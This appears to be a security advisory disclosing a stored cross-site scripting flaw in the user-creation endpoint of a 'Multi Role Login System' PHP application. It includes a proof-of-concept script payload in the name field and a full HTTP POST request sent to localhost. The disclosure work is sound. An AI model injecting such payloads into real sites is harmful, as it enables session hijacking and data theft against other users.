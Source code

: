 # Stored XSS Vulnerability in Multi Role Login System

### Title: Stored XSS Vulnerability in Multi Role Login System
### Affected Component: /endpoint/add-user.php
### CWE: CWE-79 (Improper Neutralization of Input During Web Page Generation)

### Impact:
The web application has a stored cross-site scripting (XSS) vulnerability in the create user feature. An attacker can insert malicious JavaScript into the "name" parameter, which gets displayed when updating profile details. As a result, when other users view the affected name, the script runs in their browsers, potentially leading to session hijacking, data theft, or other malicious activities.

### Proof of Concept (POC):
Attackers exploit stored XSS by injecting malicious JavaScript into the "name" field during creation of user. For instance, submitting the payload `x<script>alert('PwnedPixel')</script>` displays an alert box upon viewing. This shows that arbitrary scripts can be successfully executed within the application.

#### HTTP Request:
```
POST /multi-role-login-system/endpoint/add-user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/multi-role-login-system/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=x<script>alert('PwnedPixel')</script>&role=admin&username=test&password=test123&confirmPassword=test123

```

### Proof with Screenshot:
![image](https://github.com/user-attachments/assets/be90acbc-838a-46fa-aed8-2eb7a07842ad)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
